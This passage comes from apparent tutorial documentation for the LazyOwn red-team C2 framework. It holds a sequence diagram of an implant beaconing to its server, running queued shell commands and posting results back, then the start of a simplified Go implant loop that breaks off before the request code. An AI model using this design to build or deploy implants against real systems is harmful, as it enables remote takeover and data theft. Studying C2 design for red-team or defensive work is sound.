 ```mermaid
sequenceDiagram
    participant Implant (Target Machine)
    participant Network
    participant LazyOwn C2 Server (lazyc2.py)
    participant You (LazyOwn CLI/Web)

    Note over Implant,LazyOwn C2 Server: Implant running and configured

    loop Beaconing Loop
        Implant->LazyOwn C2 Server: HTTP GET /<maleable>/<client_id> (Checking for command)
        LazyOwn C2 Server-->Implant: HTTP 200 OK (Response with command or empty)
        Note over Implant: Process response
        opt If command received
            Implant->Implant: Execute command locally
            Implant->Implant: Capture output, system info
            Implant->LazyOwn C2 Server: HTTP POST /<maleable>/<client_id> (Sending result JSON)
            LazyOwn C2 Server-->Implant: HTTP 200 OK (Acknowledgement)
            LazyOwn C2 Server->LazyOwn C2 Server: Save result to sessions/<client_id>.log
        end
        Implant->Implant: Sleep for configured interval
    end

    Note over You,LazyOwn C2 Server: You decide to send a command

    You->LazyOwn C2 Server: Issue command (e.g., via issue_command_to_c2 CLI cmd)
    LazyOwn C2 Server->LazyOwn C2 Server: Queue command for <client_id>
    Note over LazyOwn C2 Server: Command is now waiting for next beacon

    Note over Implant,LazyOwn C2 Server: ... next beacon ...
    Implant->LazyOwn C2 Server: HTTP GET /<maleable>/<client_id>
    LazyOwn C2 Server-->Implant: HTTP 200 OK (Response contains the command)
    Implant->Implant: Execute the command
    Note over Implant: ... execution happens ...
    Implant->LazyOwn C2 Server: HTTP POST /<maleable>/<client_id> (Sending result)
    LazyOwn C2 Server->LazyOwn C2 Server: Save result
    LazyOwn C2 Server->You: Make result available (CLI output / Web interface update)
    You-->You: View result
```
*Explanation:* The implant constantly 'beacons' home to the server with a GET request. The server responds, potentially giving it a command. The implant runs the command and sends the result back via a POST request. Meanwhile, you interact with the server to queue commands or view results.

### Code Snippets Walkthrough

Let's look at simplified code examples showing parts of this interaction:

**Implant (Go) - Beaconing Loop & Request:**

```go
// --- Simplified Implant Go code (implant_crypt.go) ---
// ... (variables like C2_URL, CLIENT_ID, SLEEP, MALEABLE, USER_AGENTS defined) ...

func main() {
    // ... (setup: init encryption, load config from C2 /config.json) ...

    shellCommand := getShellCommand("-c") // Get native shell command based on OS
    baseCtx := context.Background()

    for { // The infinite beaconing loop
        func() { // Use a function scope for deferred recover/cancel
            defer globalRecover() // Restart if panic

            ctx, cancel := context.WithTimeout(baseCtx, 180*time.Second) // Context with timeout for request
```
